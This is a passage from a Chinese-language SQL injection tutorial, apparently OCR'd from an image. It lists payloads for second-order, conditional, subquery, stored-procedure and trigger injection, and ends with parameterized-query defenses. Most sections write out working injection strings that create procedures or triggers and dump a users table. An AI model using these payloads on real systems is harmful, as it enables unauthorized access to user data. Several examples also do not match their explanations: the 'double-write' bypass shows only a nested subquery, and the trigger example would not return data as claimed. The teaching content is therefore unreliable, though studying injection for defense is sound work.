 **4.2.5 二阶段 SQL 注入**

- **示例**：
  - 第一阶段：输入 `'; CREATE PROCEDURE p() BEGIN SELECT * FROM users; END;--`
  - 第二阶段：输入 `'; CALL p();--`
  - 结果：执行存储过程，返回用户数据。

### 5. 高级 SQL 注入技术

**5.1 双写注入**

- **原理**：通过双写技术绕过输入过滤。
- **示例**：
  - 输入：`(SELECT * FROM (SELECT * FROM users)a)--`
  - 结果：绕过输入过滤，注入成功。

**5.2 条件注入**

- **原理**：通过条件语句来注入代码。
- **示例**：
  - 输入：`' AND (SELECT COUNT(*) FROM users) > 1--`
  - 结果：如果页面响应正常，则注入点有效。

**5.3 子查询注入**

- **原理**：通过子查询来注入代码。
- **示例**：
  - 输入：`'; SELECT * FROM users--`
  - 结果：执行子查询，返回用户数据。

**5.4 存储过程注入**

- **原理**：通过注入存储过程来实现攻击。
- **示例**：
  - 输入：`'; CREATE PROCEDURE p() BEGIN SELECT * FROM users; END; CALL p();--`
  - 结果：创建并执行存储过程，返回用户数据。

**5.5 触发器注入**

- **原理**：通过注入触发器来实现攻击。
- **示例**：
  - 输入：`'; CREATE TRIGGER t BEFORE INSERT ON users FOR EACH ROW BEGIN SELECT * FROM users; END;--`
  - 结果：创建触发器，在插入操作前执行 SELECT 语句。

### 6. 防御 SQL 注入

**6.1 使用参数化查询**

- **示例**：
  - Python：`cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))`
  - Java：`PreparedStatement pstmt = connection.prepareStatement("SELECT * FROM users WHERE id = ?"); pstmt.setInt(1, user_id);`

**6.2 使用准备好的语句**

- **示例**：
  - Java：`PreparedStatement pstmt = connection.prepareStatement("SELECT * FROM users WHERE id = ?"); pstmt.setInt(1, user_id);`
